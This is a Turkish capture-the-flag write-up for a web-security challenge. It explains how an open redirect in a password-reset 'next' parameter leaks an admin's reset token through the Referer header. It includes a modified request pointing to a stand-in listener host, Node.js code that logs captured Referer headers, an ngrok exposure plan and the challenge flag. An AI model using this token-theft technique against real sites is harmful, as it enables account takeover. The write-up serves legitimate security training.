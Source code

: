 # İsviçre Çakısı

|    |  |
| ------------- |:-------------:|
| Zorluk        | Orta(320 Puan)|
| Aşama         | Final         |
| Soru Türü     | Web Güvenliği |
| Çözümler      |               |


## Soru Açıklaması
```
Sizi, bu İsviçre çakısı misali platforma yönlendiriyoruz.
```

### Sorunun alakalı olduğu alanlar
- Web Güvenliği

## İpuçları
```
Bu ipucu, sizden aldığı bir şeyle sizi çözüme yönlendirecek.
```

## Bayrak
```
BayrakBende{b4ll3r1n4_c4ppuc1n0}
```


# WriteUp

## Sorunun Anlaşılması ve Giriş

Soru ile ilgili bilgilerimiz:

- Bu web güvenliği sorusunda, bize urbatek kurumunun personeli tarafından kullanılan çok amaçlı bir platforma erişim verilmektedir.
- Duyuru olarak da gönderildiği üzere, kurumun yöneticileri kendilerine mail yoluyla gelecek herhangi bir bağlantıya düşünmeden tıklayacak kadar bilinçsizlerdir. 

## Web Sitesinin Araştırılması

Soru sitesine girdiğimizde, bizi birbirinden farklı iki platforma yönlendirmeyi sağlayan 2 platform karşılamaktadır.

- UrbaTasks: Urbatek firmasındaki personelin yapacağı görevlerin anlık olarak takibini yaptıkları platformdur.
- UrbaMail: Urbatek firmasındaki personelin şirket e-posta adreslerini kullanmalarına yarayan web arayüzüdür.

Urba Mail platformunu ziyaret ettiğimzde, urbatek.tr alan adı altında olan bir e-posta adresinin bize tahsis edilmiş olduğunu görürüz. Verilen e-post adresini kopyalayıp UrbaTasks platformun kaydolmamız gerekmektedir. Kaydımızı gerçekleştirdiğimizde beklediğimiz gibi görevleri yönetmemize yarayan bir platform karşımıza çıkmaktadır. Kayıt işleminin hemen sonrasında e-posta kutumuza baktığımızda ise bize kaydımızı tamamladığımıza dair bir e-posta gelmektedir.


Platformun diğer bir özelliği olan şifre sıfırlama özelliğini kullanabiliriz. Bunu yapıtğımızda e-posta adresimize bir şifre sıfırlama bağlantısı gönderilmektedir.

## Trafiğin İncelenmesi ve Zafiyet Tespiti Yapılması

Platformda gezinirken trafiği incelediğimzde, dikkatimizi çeken kısım şifre sıfırlama bölümü olmalıdır. Şifre sıfırlama kısmında kullanıcı adımızı girerek 'Şifre Sıfırlama Talebi Gönder' bölümüne bastığımızda, aşağıdaki post isteğinin sunucuya gittiğini görmekteyiz:


```formdata
------WebKitFormBoundarym7tRlaLaR4ztC8jN
Content-Disposition: form-data; name="username"

kullanici_adi
------WebKitFormBoundarym7tRlaLaR4ztC8jN
Content-Disposition: form-data; name="next"

http://soru.bayraksende.com:2999/login
------WebKitFormBoundarym7tRlaLaR4ztC8jN--
```


Yukarıdaki istekte kullanıcı adımızı içeren 'username', ve yönlendirileceğimiz bağlantıyı içeren 'next' olmak üzere 2 tane parametre bulunmaktadır. 



Ve gelen bağlantıdan şifre sıfırlama talebini başarıyla oluşturduğumuzda, 3 saniye sonra tam da istek gövdesindeki 'next' alanındaki bağlantıya yönlendirildiğimizi fark etmemiz gerekmektedir.



Yani kendimize gönderdiğimiz şifre sıfırlama isteğindeki 'next' alanını değiştirerek kendi e-postamıza gelen sıfırlama bağlantısını modifiye edebiliriz.


Örneğin, isteğimizi aşağıdaki gibi düzenlersek:


```formdata
------WebKitFormBoundarym7tRlaLaR4ztC8jN
Content-Disposition: form-data; name="username"

kullanici_adi
------WebKitFormBoundarym7tRlaLaR4ztC8jN
Content-Disposition: form-data; name="next"

http://xxxx.listener/
------WebKitFormBoundarym7tRlaLaR4ztC8jN--
```

Verilen adrese yönlendirilecek bir bağlantı gönderilmiş olacak.


Soru metni ve duyurulardaki bilgileri hatırlarsak, platform yöneticilerinin kendi e-posta kutularına gelen herhangi bir bağlantıya tıklayacak kadar bilinçsiz oldukları belirtilmişti.
Peki, bu düzenlenen payload'da kullanıcı adını yöneticilerin kullanıcı adıyla değiştirir ve url kısmını kendi sunucumuza yönlendirecek şekilde değiştirirsek ne olur?


Şifre sıfırlama bağlantılarının formatını inceleyelim:

`http://soru.bayraksende.com:2999/reset-password?token=ca208519-0339-4ce4-89a3-cbdc21c7f3c5&next=http://soru.bayraksende.com:2999/login`


Bağlantı, post istek gövdemizde verdiğimiz 'next' alanını ve sunucu tarafında oluşturulması muhtemel olan bir şifre sıfırlama tokenını içeriyor.
Bu da şu anlama geliyor: Yöneticiyi kendi web sitemize yönlendirip, onun isteğinden gelen 'referer' başlığını alırsak buradan önce bulunduğu tam url'yi görürüz, ki bu da şifre sıfırlama tokenını içerdiği için admin kullanıcısı için şifre sıfırlama talebi açabilmemiz anlamına gelmektedir.


# Listener Sunucu Kurulumu ve Zafiyetin Sömürülmesi 

Öncelikle, admin kullanıcısının 'referer' başlığını almamız ve depolamamız için bir sunucuya ihtiyacımız olacak. Bunun için istersek dışarıya açık bir sunucumuz ya da hosting'imiz varsa onu, yoksa da kendi cihazımızı ngrok veya serveo gibi reverse proxyler aracılığıyla dışarı çıkararak kendi cihazımızı kullanabiliriz. Pipedream veya webhook gibi sistemlerle de yapmak mümkün, ben çözümde herkes için uygun olması sebebiyle kendi cihaızımı ngrok ile dışarı çıkararak kullanacağım.


Bunun için en kolay yol, kullanmayı en sevdiğimiz yazılım kütüphanesi ve diliyle bir web sunucusu yazmak, ve gelen isteklerdeki referer http başlığının değerini konsola yazdırmak. Ben rahat olduğum ve severek yazdığım için Node.js kullanacağım, siz ne isterseniz onu kullanabilirsiniz.

```js
const http = require('http');

const server = http.createServer((req, res) => {
    const now = new Date();
    const ip = req.socket.remoteAddress;
    const referer = req.headers.referer || 'none';
    console.log(`${now.toISOString()} - IP: ${ip}, Referer: ${referer}`);
    res.end();
});

server.listen(3000);
```

Kodu çalıştırdığımda, sunucum cihazın 3000 portunda hazır bekliyor olacak. Bu portu ngrok reverse proxy kullanarak dışarı çıkaracağım, ki tüm kullanıcılar dolayısıyla da adminimiz erişebilsin.



